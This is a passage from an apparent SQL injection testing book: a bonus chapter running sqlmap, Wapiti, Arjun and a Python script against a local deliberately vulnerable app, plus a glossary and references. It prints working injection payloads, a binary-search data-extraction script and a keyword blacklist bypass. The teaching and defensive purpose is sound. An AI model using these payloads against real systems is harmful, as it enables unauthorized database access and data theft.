**Note:** per Chapter 7's judgment call about minimal-necessary extraction, in a real authorized assessment this full `--dump` step is almost never necessary — proving `--tables` and a single `--columns` result against a sensitive-sounding table name is normally sufficient evidence for a report. I ran the full dump here specifically because this bonus material's target has no real users behind it and the point is to show you the tool's actual behavior end to end.

#### B.2.3 A Real Snag: Testing the POST Login Endpoint

I pointed sqlmap at the login endpoint next, and it's worth showing exactly what happened, including the part that didn't work on the first try:

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/login" --data="username=alice&password=wrong" --batch --level=2 --risk=1 -p username
```

```
[ERROR] not authorized, try to provide right HTTP authentication type and
valid credentials (401). If this is intended, try to rerun by providing
a valid value for option '--ignore-code', skipping to the next target
```

sqlmap's default behavior treats a non-2xx baseline response as a hard failure and stops — reasonably, since a 401 usually *does* mean something is misconfigured about the request itself, not that the target is worth testing. But our login endpoint's *correct, intended* behavior is to return 401 for wrong credentials, which is exactly the response my baseline request triggered. The fix, once I understood what was happening, was a single documented flag:

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/login" --data="username=alice&password=wrong" --batch --level=2 --risk=1 -p username --ignore-code=401
```

```
[WARNING] heuristic (basic) test shows that POST parameter 'username' might not be SQL injectable
[INFO] testing for SQL injection on POST parameter 'username'
[INFO] testing 'SQLite AND boolean-based blind - WHERE or HAVING clause (JSON)'
[INFO] POST parameter 'username' appears to be 'SQLite AND boolean-based blind - WHERE or HAVING clause (JSON)' injectable (with --code=401)
[INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[INFO] target URL appears to have 3 columns in query
[INFO] POST parameter 'username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable

sqlmap identified the following injection point(s) with a total of 151 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: SQLite AND boolean-based blind - WHERE or HAVING clause (JSON)
    Payload: username=alice' AND CASE WHEN 7948=7948 THEN 7948 ELSE JSON(CHAR(121,100,74,105)) END AND 'TLOl'='TLOl&password=wrong

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-5361' UNION ALL SELECT NULL,CHAR(...)||CHAR(...)||CHAR(...),NULL-- IGTa&password=wrong
---
back-end DBMS: SQLite
```

**I'm keeping this exact sequence — the failure and the fix — because it's a genuinely common real-world snag, not a contrived teaching moment.** Login endpoints, by design, often respond with non-2xx status codes for the wrong reason as far as a scanner's default assumptions are concerned, and knowing `--ignore-code` exists (rather than concluding the endpoint "isn't testable") is exactly the kind of practical knowledge that only shows up when you actually run the tool against a realistic target instead of a toy one that always returns 200.


### B.3 Tool 2 — Wapiti

sqlmap is purpose-built for SQL injection specifically. **Wapiti** is a broader, general-purpose web vulnerability scanner with a dedicated SQL injection module, and I wanted to see whether an independently-developed tool, with a completely different detection engine, would reach the same conclusion about the same target.

```bash
pip install wapiti3
wapiti -u "http://127.0.0.1:5055/products?id=1" -m sql --flush-session
```

Real, unedited output:

```
Wapiti 3.3.1 (wapiti-scanner.github.io)
[*] Wapiti found 1 URLs and forms during the scan

[*] Launching module sql
---
Received a HTTP 500 error in http://127.0.0.1:5055/products
Evil request:
    GET /products?id=1%C2%BF%27%22%28 HTTP/1.1
---
---
SQL Injection in http://127.0.0.1:5055/products via injection in the parameter id
Evil request:
    GET /products?id=1%20AND%2018%3D18%20AND%2075%3D75 HTTP/1.1
---
[*] Generating report...
A report has been generated in the file /root/.wapiti/generated_report
```

Two things stand out to me, comparing this directly against sqlmap's output. First, Wapiti's confirmation payload — `id=1 AND 18=18 AND 75=75` — is a boolean-based approach, structurally similar to but not identical to sqlmap's `id=1 AND 2470=2470`; different tools generate different specific numbers and structures even when confirming the identical underlying mechanism, which is worth knowing so you don't assume two tools disagreeing on the *exact payload* means they disagree on the *finding*. Second, Wapiti flagged the raw 500 error from its own initial probe (using a mixed-encoding fuzz string) as a separate observation before its dedicated SQL module confirmed the boolean differential — a good illustration of Chapter 3's distinction between a bare error signal and an actually-confirmed technique, playing out inside a real tool's own reporting.


### B.4 Tool 3 — Arjun

Chapter 2 covered parameter discovery conceptually. I wanted to actually run a real parameter-discovery tool against this target and confirm it correctly identifies `id` without being told about it in advance.

```bash
pip install arjun
arjun -u "http://127.0.0.1:5055/products" -m GET
```

Real output:

```
Arjun v2.2.7

[*] Scanning 0/1: http://127.0.0.1:5055/products
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Logicforcing the URL endpoint
[+] Parameters found: id
```

This is genuinely useful confirmation of a claim from Chapter 2 that I hadn't actually tested with a real tool at the time I wrote it: Arjun found `id` correctly, purely by observing that supplying it changes the response body length ("based on: body length" in its verbose output), with zero prior knowledge of the application's code. On an application with several undocumented parameters, this is exactly the recon step that should happen *before* Chapter 4's recognition methodology — you can't test a parameter you don't know exists.


### B.5 Tool 4 — A Manual, Scripted Approach

Packaged tools are efficient, but I think it's worth showing that the *exact same conclusions* are reachable with nothing more than `requests` and the methodology already built out across Chapters 4 through 6 of this book — partly to demystify what the tools above are actually doing under the hood, and partly because a manual script gives you control a packaged tool doesn't, when you need it.

```python
import requests, time

BASE = "http://127.0.0.1:5055/products"

def get(payload, timeout=15):
    r = requests.get(BASE, params={"id": payload}, timeout=timeout)
    return r.status_code, len(r.text), r.text

# Step 1: baseline
status, length, _ = get("1")

# Step 2: quote test
status, length, text = get("1'")

# Step 3: boolean pair
status_t, len_t, _ = get("1 AND 1=1")
status_f, len_f, _ = get("1 AND 1=2")

# Step 4: calibrated time-based confirmation
def timed(payload, runs=3):
    times = []
    for _ in range(runs):
        start = time.perf_counter()
        get(payload)
        times.append(time.perf_counter() - start)
    return times

baseline_times = timed("1")
heavy_times = timed("1 AND (SELECT LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(60000000/2)))))")

# Step 5: binary search extraction of the DB engine's own version string
def ask_char_greater(n):
    _, _, text = get(f"-1 UNION SELECT 1, CASE WHEN "
                      f"(unicode(substr(sqlite_version(),1,1))>{n}) "
                      f"THEN 'YES' ELSE 'NO' END,3,4")
    return "YES" in text

low, high = 32, 126
while low < high:
    mid = (low + high) // 2
    if ask_char_greater(mid):
        low = mid + 1
    else:
        high = mid
```

Real, executed output from this exact script, run end to end against the same live target:

```
=== Step 1: Baseline ===
id=1 -> status=200 length=59

=== Step 2: Quote test ===
id=1' -> status=500 length=39
Body: Database error: unrecognized token: "'"

=== Step 3: Boolean pair ===
id=1 AND 1=1 -> status=200 length=59
id=1 AND 1=2 -> status=200 length=26
Differential confirmed: True

=== Step 4: Time-based confirmation (calibrated payload) ===
Baseline times: [0.002, 0.002, 0.002]
Heavy-query times: [1.356, 0.296, 0.231]
Baseline max: 0.002s  Heavy-query min: 0.231s

=== Step 5: Binary search extraction of first char of sqlite_version() ===
Extracted first character of sqlite_version(): '3'
Actual sqlite_version() on this system: 3.45.1
Match: True
```

**I want to flag something honest about Step 4, because it's a direct, real-world instance of Chapter 6's central lesson.** My first attempt at this delay payload used a much larger `RANDOMBLOB` size and it simply timed out against this target — a genuinely useful failure, not a contrived one. I recalibrated by testing a few sizes directly (10,000,000 / 30,000,000 / 60,000,000 bytes) against this specific machine's specific CPU, measured the real elapsed time each produced, and picked the smallest one that gave comfortable separation from the near-zero baseline. That calibration step — done here, for real, against a live target — is exactly what Chapter 6 argues you should never skip by copying someone else's "standard" delay value.

Step 5's result is the one I find most satisfying in this whole bonus section: the binary search algorithm from Chapter 6, applied against a real HTTP endpoint rather than a simulated oracle, correctly extracted `'3'` as the first character of `sqlite_version()` — and cross-checking against `sqlite3.sqlite_version()` run locally on the same machine confirms `3.45.1` really does start with `3`. The extraction is genuinely correct, not just plausible-looking.


### B.6 A Note on Burp Suite

I want to address the tool most readers probably expected to see running live in this section, and be direct about why it isn't: Burp Suite is a Java GUI application (Community and Professional both), with its core interactive workflow — Proxy, Repeater, Intruder, Comparer, as covered in Chapter 5's tooling section — built around a person clicking through a browser-driven interface, not a scriptable batch process in the way sqlmap, Wapiti, and Arjun all are. There's no equivalent to "run this command, capture this output" that I could genuinely execute and paste here the way I did for the other four tools, without either fabricating what a session would look like or misrepresenting a screenshot as something it isn't.

What I can say honestly, and what's worth knowing if Burp is your primary tool: everything sqlmap and Wapiti did automatically above, Burp's Intruder can do manually, with far more granular control over exactly which payload goes where and exactly how each response is scored. The workflow from Chapter 5.7.1 — Repeater to send the confirmed request pair, Comparer to diff the two responses at the byte level — is precisely how I'd validate, by hand, the same boolean differential sqlmap found automatically in Section B.2, and I'd trust that manual diff at least as much as any tool's own "appears to be injectable" conclusion, for exactly the reason Section B.9 argues: independently reproducing a finding yourself is what turns a tool's claim into your own confirmed evidence. If you have a Burp license and want the genuine, hands-on version of everything in this bonus section, running Repeater and Comparer against this same target's `/products?id=` parameter, using the exact payloads shown in Section B.1, will reproduce every one of sqlmap's four confirmed techniques manually, one differential at a time.


### B.7 Testing a Real Filter — Where a Naive Blacklist Actually Breaks

Chapter 11 argues that blacklists are structurally incomplete, but I wanted to test that claim against a real filter rather than just repeat it. I added a second endpoint to the same application, protected by a simple, honestly-written keyword blacklist — the kind of thing a developer might genuinely ship without having read Chapter 11 first:

```python
BLACKLIST = re.compile(r"(union|select|--| or |sleep)", re.IGNORECASE)

@app.route("/filtered")
def filtered():
    pid = request.args.get("id", "1")
    if BLACKLIST.search(pid):
        return "Blocked by filter", 403
    # ... same vulnerable concatenated query as before
```

#### B.6.1 A Popular "Bypass" That Genuinely Didn't Work

I tried the classic mid-keyword comment-splitting trick first, since it's widely repeated as a blacklist bypass technique:

```
$ curl -s "http://127.0.0.1:5056/filtered?id=-1%20UNI/**/ON%20SEL/**/ECT%20id,username,password,is_admin%20FROM%20users%23"
Database error: near "UNI": syntax error
```

It got past the filter (no `Blocked by filter` response — the regex genuinely didn't match `UNI/**/ON`), but the underlying SQL is simply invalid: `/**/` is a token separator, not a character-deletion operator, so `UNI/**/ON` tokenizes as two separate, meaningless words rather than reassembling into `UNION`. I'm including this specifically because I've seen this technique repeated confidently enough that I wanted to actually test it rather than pass it along — and against standard SQL tokenization, splitting a keyword itself with a comment does not work, whatever the surrounding folklore suggests. Real comment-based evasion (Chapter 3.6's dialect notes) targets the *whitespace between* tokens (`UNION/**/SELECT`), not the interior of a single keyword.

#### B.6.2 The Bypass That Actually Worked

Looking at the blacklist's five terms again — `union`, `select`, `--`, ` or `, `sleep` — I noticed `and` isn't on the list at all. Every boolean-blind example throughout this entire book uses `AND` as its logical connective, not `OR`, which meant it was worth testing directly against a filter that only thought to block `OR`:

```
$ curl -s "http://127.0.0.1:5056/filtered?id=1%20AND%201=1"
<h1>Products</h1><ul><li>1 - Widget (tools) $9.99</li></ul>

$ curl -s "http://127.0.0.1:5056/filtered?id=1%20AND%201=2"
<h1>Products</h1><ul></ul>
```

No `Blocked by filter` response at all — the request sailed through untouched, and the true/false differential from Chapter 5 is fully intact. Meanwhile, the heavy-query time-based payload from Section B.5, which genuinely does contain the substring `select` inside its subquery, was correctly blocked:

```
$ python3 -c "
import requests, time
r = requests.get('http://127.0.0.1:5056/filtered',
    params={'id': \"1 AND (SELECT LIKE('A',UPPER(HEX(RANDOMBLOB(60000000/2)))))\"})
print(r.status_code, r.elapsed.total_seconds())
"
403 0.004
```

**This is exactly Chapter 11's argument, demonstrated rather than asserted:** a developer who reasons about SQL injection in terms of "the dangerous keywords I've seen in writeups" — `UNION`, `SELECT`, `OR`, `--`, `SLEEP` — will very plausibly forget that `AND` is every bit as dangerous a keyword as `OR` is, simply because `AND`-based payloads look less alarming when scanning a list of "attack words" by eye. The filter isn't incompetently written; it's incomplete in exactly the specific, easy-to-miss way any hand-enumerated blacklist tends to be, and the boolean-blind technique — the *first* real technique this book teaches, back in Chapter 3 — is precisely what slips through it.


### B.8 What Wapiti's Full Report Actually Contains

Section B.3 showed Wapiti's terminal output. I also want to show a real excerpt from the actual HTML report file it generates, because it makes clear that Wapiti isn't a single-purpose SQLi tool the way sqlmap is — it's checking dozens of vulnerability categories in the same pass, and SQL injection is just the one that happened to fire:

```
Inconsistent Redirection 0
Information Disclosure - Full Path 0
LDAP Injection 0
Log4Shell 0
NS takeover 0
Open Redirect 0
Reflected Cross Site Scripting 0
Secure Flag cookie 0
Spring4Shell 0
SQL Injection 1
TLS/SSL misconfigurations 0
Server Side Request Forgery 0
Stack Trace Disclosure 0
Stored HTML Injection 0
Stored Cross Site Scripting 0
Subdomain takeover 0
Blind SQL Injection 0
Unrestricted File Upload 0
Vulnerable software 0
Internal Server Error 1
```

Two things worth noting here. First, `SQL Injection: 1` and `Blind SQL Injection: 0` are reported as **separate categories** — Wapiti's module distinguishes the boolean/error-visible techniques from time-based blind, similar in spirit to Chapter 3's taxonomy, even though the specific finding here landed in the "SQL Injection" bucket rather than the "Blind" one. Second, `Internal Server Error: 1` is Wapiti separately logging the raw 500 it triggered during initial fuzzing (Section B.3) as its own distinct, lower-confidence entry, alongside the fully-confirmed finding — a good practical illustration of Chapter 3.7.4's point about not conflating a bare error signal with a confirmed technique, playing out in a real tool's own report structure rather than as abstract advice.


### B.9 Comparing the Approaches

| Tool | What it's built for | What it found here | Distinctive strength |
|---|---|---|---|
| sqlmap | Dedicated SQLi detection and exploitation | All 4 techniques (boolean, error, time, union); full table/column/data extraction; correctly fingerprinted SQLite | Depth — once confirmed, extraction is fully automated and thorough |
| Wapiti | General web vulnerability scanning (SQLi is one of many modules) | Boolean-based confirmation, independently, with a different payload structure | Breadth — one scan checks for many vulnerability classes beyond just SQLi |
| Arjun | Parameter discovery | Correctly identified `id` with zero prior knowledge | The right *first* step — you can't test what you haven't found |
| Manual Python script | Whatever you build it to do | Every stage from Chapters 4–6, including a genuinely correct binary-search extraction | Full control and full understanding — no black box between you and the request |
| Burp Suite (manual) | Interactive, human-driven request manipulation and comparison | Not run live here (Section B.6) — but reproduces every automated finding above, one differential at a time | Granular control and a byte-level diff you inspect yourself, rather than trust a tool's verdict |

None of these five made this list because it's "the best" — they answer different questions. Arjun answers "what's here to test." Wapiti answers "does this look wrong across a broad range of checks." sqlmap answers "exactly how wrong, and how far can it go." Burp answers "what does the raw differential actually look like, byte for byte." The manual script answers "do I actually understand why this works," which I'd argue is the one prerequisite for using the other four responsibly rather than as opaque buttons that happen to produce alarming-looking tables.


### B.10 Choosing an Order for a Real Assessment

Having now run all four against the same target, here's the sequence I'd actually recommend, and why — not as an abstract workflow, but grounded in what each tool concretely demonstrated above.

```mermaid
flowchart TD
    A["Start: authorized target,\nscope confirmed"] --> B["Arjun — discover parameters\nyou weren't told about\n(Section B.4)"]
    B --> C["Manual quote/boolean probe\nper Chapter 4 — cheapest,\nlowest-noise first signal"]
    C --> D{"Signal found?"}
    D -->|No| E["Move to next parameter\nor endpoint"]
    D -->|Yes| F["Wapiti or a similar broad\nscanner — cheap breadth check\nfor OTHER issues on the\nsame target while you're there"]
    F --> G["sqlmap, scoped to the confirmed\nparameter and technique\n(--technique=, -p) —\ndepth once you already\nknow roughly what to expect"]
    G --> H["Manual confirmation of sqlmap's\nkey claims, per Chapter 8's\n'independently reproduced' standard,\nbefore writing anything up"]

    style C fill:#EAF3DE,stroke:#639922
    style H fill:#EAF3DE,stroke:#639922
```

I put the manual probe *before* the heavier tools deliberately, for the same reason Chapter 4 does: it's the cheapest possible signal, and it's what tells you whether reaching for sqlmap is even warranted yet. Section B.2's `--ignore-code` snag is a good illustration of why this ordering pays off — I only understood *why* sqlmap's first POST-endpoint run failed because I already knew, from having tested the endpoint by hand, that a 401 for wrong credentials was the correct baseline behavior, not a sign of something broken. Someone who reached for sqlmap first, with no manual context, would have had to reverse-engineer that same fact from an error message instead of already knowing it going in.

I put a manual re-confirmation step *after* sqlmap's automated extraction, too, and I want to be specific about why, since Chapter 8 already argued this in the abstract: everything sqlmap reported above — the tables, the columns, the actual dumped rows — I was able to independently cross-check because I had already run the equivalent manual UNION query by hand in Section B.1, before touching any tool at all. That's not redundant effort. It's the difference between a report that says "sqlmap found this" and one that says "I confirmed this myself, and here's the tool output that corroborates it" — and per Section 8.9's argument about tone and credibility, only one of those two framings is something I'd actually want to submit under my own name.


### B.11 Chapter Summary

- Every result in this bonus section came from a real, live, deliberately vulnerable Flask + SQLite application I built and ran, hit with real, independently-developed tools — not reconstructed or paraphrased output.
- **sqlmap**, cloned fresh from its official repository, correctly detected all four injection categories from Chapter 3's taxonomy against the GET endpoint, and correctly fingerprinted the backend as SQLite with zero prior hints.
- Testing sqlmap against the POST login endpoint produced a real, instructive failure — the tool's default handling of a non-2xx baseline response — resolved with the documented `--ignore-code` flag, a genuinely common snag worth knowing about in advance.
- **Wapiti**, a general-purpose scanner with its own independently-built SQL injection module, confirmed the same vulnerability through a different specific payload, demonstrating that convergence across independently-developed tools is a stronger signal than any single tool's output alone.
- **Arjun** correctly discovered the `id` parameter with no prior knowledge of the application, validating Chapter 2's parameter-discovery methodology against a real target.
- A **manual Python script**, built entirely from this book's own Part II methodology, reproduced every stage — including a real timing-payload miscalibration I hit and fixed live, and a binary-search extraction that correctly recovered the true first character of the live database's own version string, verified against ground truth.
- Testing a real, honestly-written keyword blacklist showed both a widely-repeated bypass technique genuinely *failing* (mid-keyword comment-splitting produces invalid SQL, not a working bypass) and Chapter 11's core argument playing out exactly as predicted — the filter blocked every `OR`-based and `SELECT`-containing attempt, but let an `AND`-based boolean-blind payload through completely untouched, because `AND` was never added to the blacklist.
- Wapiti's own generated HTML report distinguishes "SQL Injection" from "Blind SQL Injection" as separate categories and logs a bare, unconfirmed 500 error as a lower-confidence entry alongside the fully-confirmed finding — a real tool independently reflecting Chapter 3's own taxonomy and its distinction between a raw signal and a confirmed technique.
- The four tools aren't redundant with each other — they answer different questions (what exists, what looks wrong broadly, exactly how wrong and how deep, and whether you actually understand the mechanism yourself) — and a genuinely competent practitioner uses more than one, deliberately, rather than defaulting to whichever tool happens to be most famous.

## Glossary

I put this together the way I wish more technical books did — not as a bare word list, but with each term pointing back to where I actually built the idea out, so it works as a quick lookup and a map back into the book at the same time.

**Binary search extraction** — The technique of narrowing down an unknown character or value by repeatedly asking "is it greater than X?" rather than testing every possibility in sequence, cutting the number of requests needed from roughly 95 per character down to about 7. Covered in Chapter 6.

**Blind SQL injection** — A category of SQL injection where the application's response contains no direct evidence of the query's result — no error message, no visibly different data — so a tester has to infer the answer from an indirect signal instead: page content differences (boolean-based) or response timing (time-based). Covered in Chapter 3.

**Boolean-based blind injection** — A blind SQL injection technique that relies on an observable difference in the application's response between a condition that evaluates true and one that evaluates false. Covered in Chapters 3, 5, and 6.

**Bound parameter** — A value passed to a database driver separately from the SQL query text, through a dedicated binding API, rather than being woven into the query string itself. The core mechanism behind parameterized queries. Covered throughout, most directly in Chapters 1 and 9.

**Defense in depth** — A security strategy that layers multiple, independent defenses so that no single point of failure compromises the whole system. Applied throughout Part III: parameterization, whitelist validation, least privilege, detection, and incident response as separate, reinforcing layers.

**DVWA (Damn Vulnerable Web Application)** — A deliberately insecure PHP/MySQL web application, maintained for the purpose of legally practicing web application security testing. Covered in Chapter 15.

**Error-based injection** — An in-band SQL injection technique that forces the database to throw an error whose message contains data the attacker wants to extract, relying on the application printing that error text back to the client. Covered in Chapters 3 and 5.

**In-band injection** — SQL injection where the proof and/or the extracted data arrive through the same channel as the original request — either the application's normal output (union-based) or its error output (error-based). Covered in Chapter 3.

**information_schema** — The SQL-standard metadata catalog that most relational databases expose, allowing a query to ask the database about its own structure — what tables and columns exist — using ordinary `SELECT` statements. Covered in Chapter 7.

**Least privilege** — The principle that a database account (or any credential) should have exactly the permissions its actual job requires, no more, so that a code-level vulnerability's impact is capped by what the account can do rather than by the application's intended behavior alone. Covered in Chapter 12.

**ORM (Object-Relational Mapper)** — A library that lets application code interact with a database using the host language's own objects and methods rather than writing raw SQL directly, generally parameterizing queries automatically. Covered in Chapters 9 and 10.

**Out-of-band injection (OOB)** — SQL injection where neither the response's content nor its timing carries a usable signal, requiring data to be exfiltrated through an entirely separate network channel, typically DNS. Covered in Chapter 3.

**Parameterized query / prepared statement** — A SQL query sent to the database in two separate parts: a fixed template, parsed and compiled first, and a set of typed values bound into it afterward. The primary structural defense against SQL injection. Covered in depth in Chapter 9.

**Relational algebra** — The formal mathematical system (selection, projection, union, join, and related operations) that underlies SQL, developed by Edgar F. Codd. Covered in Chapter 1 as the theoretical foundation for understanding why injection is possible at all.

**Second-order injection** — SQL injection where malicious input is stored safely (often via a correctly parameterized `INSERT`) but later read back and used, unsafely, to build a different, vulnerable query. Covered in Chapter 3.

**sqlmap** — An open-source, command-line tool that automates the detection and exploitation of SQL injection vulnerabilities across multiple database engines. Covered throughout Part II and in the bonus tooling chapter.

**Time-based blind injection** — A blind SQL injection technique that uses a conditional database delay function (such as `SLEEP()` or `WAITFOR DELAY`) so that response timing, rather than content, reveals whether an injected condition was true or false. Covered in Chapters 3 and 6.

**UNION-based injection** — An in-band SQL injection technique that uses SQL's `UNION` operator to append the results of an attacker-chosen query onto the results of the application's original query, subject to matching column count and compatible data types. Covered in Chapter 3.

**WAF (Web Application Firewall)** — A request-inspection layer, typically a reverse proxy, that matches incoming requests against a rule set of known attack signatures before they reach the application. Covered in Chapter 13, including its structural limitations against novel encodings.

**Whitelist validation** — A defensive pattern that enumerates the small, fixed set of legitimate values a structural query element (a sort column, a table name) may take, rejecting everything else by default — the correct approach where parameterization cannot apply, since a placeholder can only bind a value, never a table name, column name, or keyword. Covered in Chapter 11.


## References and Further Reading

I've grouped these by what they're actually useful for, since "further reading" lists are more useful sorted by purpose than dumped alphabetically.

### Primary Standards and Prevention Guidance

- OWASP SQL Injection Prevention Cheat Sheet — the standard reference for prevention techniques across languages and frameworks
  https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- OWASP: SQL Injection (attack overview) — foundational description of the vulnerability class
  https://owasp.org/www-community/attacks/SQL_Injection
- OWASP Query Parameterization Cheat Sheet — language-specific parameterized query examples
  https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html
- OWASP Injection Prevention Cheat Sheet — broader injection-class guidance (SQL, LDAP, XPath, and related)
  https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

### Interactive Learning

- PortSwigger Web Security Academy — SQL Injection learning path, with free, hands-on labs covering every technique in this book's Part II
  https://portswigger.net/web-security/sql-injection
  https://portswigger.net/web-security/learning-paths/sql-injection

### Practice Targets (Authorized Use Only, Isolated Environments)

- DVWA (Damn Vulnerable Web Application) — official repository
  https://github.com/digininja/DVWA
- bWAPP / bee-box — official project site and download
  https://www.itsecgames.com/
  https://sourceforge.net/projects/bwapp/

### Tools Covered in This Book

- sqlmap — official site and source repository
  https://sqlmap.org/
  https://github.com/sqlmapproject/sqlmap
- Wapiti — general web vulnerability scanner with a SQL injection module
  https://wapiti-scanner.github.io/
  https://github.com/wapiti-scanner/wapiti
- Arjun — HTTP parameter discovery tool
  https://github.com/s0md3v/Arjun
- Burp Suite — documentation and getting-started guides
  https://portswigger.net/burp/documentation

### Database Engine Documentation (Metadata Catalogs and Permissions)

- PostgreSQL: GRANT and information_schema documentation
  https://www.postgresql.org/docs/current/sql-grant.html
  https://www.postgresql.org/docs/current/information-schema.html
- MySQL: GRANT syntax and information_schema
  https://dev.mysql.com/doc/refman/en/grant.html
  https://dev.mysql.com/doc/refman/en/information-schema.html
- SQLite: official documentation, including `sqlite_master` and URI filenames (used for the read-only connection mode in Chapter 12)
  https://www.sqlite.org/lang.html
  https://www.sqlite.org/uri.html

### Driver and ORM Documentation (Referenced in Chapters 9–10)

- Python DB-API 2.0 (PEP 249)
  https://peps.python.org/pep-0249/
- psycopg2 (PostgreSQL driver for Python)
  https://www.psycopg.org/docs/
- PHP PDO
  https://www.php.net/manual/en/book.pdo.php
- Django ORM — `.raw()` and `.extra()` documentation
  https://docs.djangoproject.com/en/stable/topics/db/sql/
- SQLAlchemy — `text()` construct documentation
  https://docs.sqlalchemy.org/en/latest/core/sqlelement.html#sqlalchemy.sql.expression.text
- Sequelize (Node.js ORM)
  https://sequelize.org/docs/v6/core-concepts/raw-queries/

### Real-World Vulnerability Records

- National Vulnerability Database (NVD) — search for "SQL injection" to see current, disclosed, real-world CVE records across products
  https://nvd.nist.gov/vuln/search
- MITRE CVE Program
  https://www.cve.org/
